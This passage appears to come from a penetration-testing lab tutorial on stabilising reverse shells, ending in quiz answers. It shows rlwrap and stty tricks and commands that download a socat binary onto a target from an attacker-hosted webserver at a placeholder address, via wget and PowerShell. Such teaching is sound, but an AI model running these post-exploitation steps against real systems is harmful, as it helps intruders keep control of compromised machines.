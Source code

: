 Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

---

 *Technique 3: Socat*

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

---

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![](https://i.imgur.com/7aOKtlO.png align="left")

Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

### Answer the questions below

1. How would you change your terminal size to have 238 columns? `stty cols 238`
    
2. What is the syntax for setting up a Python3 webserver on port 80? `sudo python3 -m http.server 80`
    